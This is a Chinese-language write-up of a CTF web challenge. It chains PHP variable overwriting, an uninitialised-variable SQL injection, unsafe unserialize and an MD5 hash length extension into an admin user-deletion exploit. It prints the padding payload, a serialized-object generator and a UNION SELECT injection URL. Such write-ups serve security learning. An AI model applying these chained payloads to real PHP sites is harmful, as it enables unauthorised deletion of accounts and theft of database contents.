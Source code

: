 

### writeup 
此题目出的真好,硬生生的增长我这菜鸟的一波姿势.
[官方的writeup](http://bobao.360.cn/ctf/detail/173.html)

首先在公共文件 common.php中发现了一个变量覆盖漏洞:
```php
foreach(Array("_POST","_GET","_COOKIE") as $key){
	foreach($$key as $k => $v){
		if(is_array($v)){
		die("hello,hacker!");
		}else{
			$k[0] !='_'?$$k = addslashes($v):$$k = "";
		}
	}
}
```
为啥变量覆盖,不再讲. 这样写理论上是可以重置任意的变量的,但是这个文件是被其他文件在文件最开始引用的,
所以,即便是这里覆盖了,但是在后面的代码会被再次赋值,又被改过来了,没有办法控制变量.

因此这里只能覆盖掉文件中没有经过初始化操作的变量.
最后在riji.php中发现了下面代码:
```php
if($_SESSION['user'])
{
	$username = $_SESSION['user'];
	@mysql_conn();
	$sql = "select * from user where name='$username'";
	$result = @mysql_fetch_array(mysql_query($sql));
	mysql_close();
	if($result['userid'])
	{
		$id = intval($result['userid']);
	}
}
```
我们发现只要在登陆之后,SESSION就会存在,所以会过第一个判断,但是如果用一个用户登陆之后,再删除了这个用户,
它再拿用户名到数据库中查找,显然是找不到的,那么$result['userid']此时为空,导致 $id这个变量没有被初始化,所以这个变量可控.

再往下看:
```php
<?php
				@mysql_conn();
				$sql1 = "select * from msg where userid= $id order by id";
				$query = mysql_query($sql1);
				$result1 = array();
				while($temp=mysql_fetch_assoc($query)) {
					$result1[]=$temp;
				}
				mysql_close();
				foreach($result1 as $x=>$o)
				{
					echo display($o['msg']);
				}
				?>

```
这里进入数据库查询时, $id没有被单引号包裹,所以 addslashes对它不起作用,造成一次注入.

接下来我们就要看怎么删除这个用户了.要利用到api中的接口函数 
在最下面看到,api参数没有初始化:
```php
$a = unserialize(base64_decode($api));
$a->do_method();
```
而且这个文件包含了公共common.php文件,存在变量覆盖漏洞.我们可以控制$a的执行:
跟踪里面的check函数:
```php
function check(){
		$username = addslashes($this->name);//进入数据库的数据进行转义
		@mysql_conn();
		$sql = "select * from user where name='$username'";
		$result = @mysql_fetch_array(mysql_query($sql));
		mysql_close();
		if(!empty($result)){
			//利用 salt 验证是否为该用户
			if($this->check === md5($result['salt'] . $this->data . $username)){
				echo '(=-=)!!';
				if($result['role'] == 1){//检查是否为admin用户
					return 1;
				}
				else{
					return 0;
				}
			}
			else{
				return 0;
			}
		}
		else{
			return 0;
		}
	}
```
我们需要绕过这个判断:
```php
if($this->check === md5($result['salt'] . $this->data . $username))
```
由于admin用户的$result['salt']是随机生成的,我们不知道,所以我们不知道怎么找到一个满足条件的 $check和$data;

但是我们在forget.php中看到了这个:
```php
if($result['salt'])
		{
			$check = base64_encode(md5($result['salt']));
			$name = $result['name'];
			header("Location:/web/repass.php?username=$name&check=$check&mibao=$mibao&pass=$pass");
		}
```
如果我们用admin用户来忘记密码,那么这个302跳转暴露了 base64_encode(md5($result['salt'])),我们知道了 md5($result['salt']).
要求  md5($result['salt'] . $this->data . "admin") 的值,所以这里存在一个哈希扩展攻击.

所以在忘记密码页面输入用户名admin,看到url跳转,抓到  md5($result['salt'])为 eb7a4f270f13c25ed11c7ad939c23dec
然后利用hash长度扩展攻击,利用[这个工具](https://github.com/JoyChou93/md5-extension-attack)
```bash
$python md5pad.py   eb7a4f270f13c25ed11c7ad939c23dec  admin 16 
Payload:  '\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x00admin'
Payload urlencode: %80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80%00%00%00%00%00%00%00admin
md5: 20b7748454ad6a1fa54b3df0778dbd33
```
的到之后,构造如下代码:
```php
<?php 

class admin{
    var $name = "admin";
    var $check= "20b7748454ad6a1fa54b3df0778dbd33";
    var $data = "\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x00";
    var $method="del_user";   //要调用的函数  
    var $userid="2";  //要删除的用户  
}
$a = new admin(); 
$api = base64_encode(serialize($a));
echo $api;

```
这里的userid是在用户登陆的时候得到的,
```php
if(@$login==1)
{
	
	@mysql_conn();
	$sql = "select * from user where name='$username'";
	$result = @mysql_fetch_array(mysql_query($sql));
	mysql_close();
	if (!empty($result))
	{
		
		if($result['passwd'] == md5($password))
		{
			$user_cookie = '';
			$user_cookie .= $result['userid'];
			$user_cookie .= $result['name'];
			$user_cookie .= $result['salt'];
			$cookies = base64_encode($user_cookie);
			//$cookies = $user_cookie;
			setcookie("user",$cookies,time()+60,'/web/');
			$_SESSION['login'] = 1;
			$_SESSION['user'] = $username;
			header('Location:/web/riji.php');
```
把 cookie base64解密一下,就看到userid了.

然后把生成的api作为参数传入api.php.注意这里因为进行了登陆转状态的判定,所以要用一个新的隐私窗口发包.
发完之后,会看到删除成功的提示,这时候再去刚才那个用户的riji.php页面,发现还是在登陆状态:
此时我们访问
```
http://xxx/riji.php?id=-1 union select 1,2,flag from flag
```
就看到了flag.
